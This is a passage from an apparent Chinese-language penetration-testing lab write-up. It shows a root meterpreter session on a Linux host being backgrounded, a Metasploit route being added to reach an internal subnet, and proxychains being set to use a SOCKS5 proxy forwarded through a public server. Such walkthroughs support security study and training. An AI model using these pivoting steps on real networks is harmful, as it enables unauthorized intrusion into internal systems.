 公网服务器上可以看到9999端口监听:`netstat -pantu |grep 9999`

![image-20211013162340617](/assets/image-20211013162340617.png)



添加路由`route add 192.168.201.0 255.255.255.0 3`

```shell
meterpreter > background                           #保存会话
[*] Backgrounding session 3...
msf6 exploit(multi/handler) > sessions          #查看会话id

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  3         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:34434 (::1)

msf6 exploit(multi/handler) > route                 #查看路由，当前没有路由
[*] There are currently no routes defined.
msf6 exploit(multi/handler) > route add 192.168.201.0 255.255.255.0 3     #为192.168.201.0网段添加路由
[*] Route added
msf6 exploit(multi/handler) > route                #查看路由，添加成功

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.201.0      255.255.255.0      Session 3

[*] There are currently no IPv6 routes defined.
msf6 exploit(multi/handler) >

```



kali主机shell上：修改/etc/proxychains4.conf文件，添加如下一行：

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf
[sudo] kali 的密码：

添加如下一行：Centos的socks5代理映射到了公网ip：175.24.115.4的9999端口上
socks5 175.24.115.4 9999

```
